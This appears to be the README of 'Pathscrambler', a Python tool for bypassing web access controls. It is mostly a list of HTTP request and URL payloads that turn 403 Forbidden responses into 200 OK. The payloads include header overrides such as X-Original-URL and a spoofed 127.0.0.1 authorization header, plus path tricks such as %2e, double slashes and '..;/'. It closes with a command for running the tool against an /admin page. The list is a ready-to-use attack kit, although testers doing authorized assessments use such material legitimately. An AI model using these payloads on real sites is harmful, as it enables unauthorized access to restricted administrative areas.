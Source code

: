 # Pathscrambler

Simple Tool written in python to bypass access-control restriction currenty supports :

These payloads are directly pulled from twitter. Thanks to the community :)

--------------------------------------------------
```
GET /admin HTTP/1.1
Host: example.com     =>    403 Forbidden


GET /anything HTTP/1.1
Host: example.com
X-original-url: /admin =>   200 OK

GET /anything HTTP/1.1
Host: example.com
X-Custom-IP-Authorization:127.0.0.1

------------------------------------------------


https://www.example.com/path =>  403 Forbidden

https://www.example.com/%2e/path   =>  200 OK

------------------------------------------------

https://www.example.com/admin       => 403

https://www.example.com/.           => 200

https://www.example/admin//         => 200

https://www.example/./admin/./      => 200

------------------------------------------------

https://www.example.com/admin/      => 302

https://www.example.com/admin..;/   => 200
------------------------------------------------
```


Command Example :

python3 pathscrambler.py -u "https://www.example/admin" where /admin returns 403
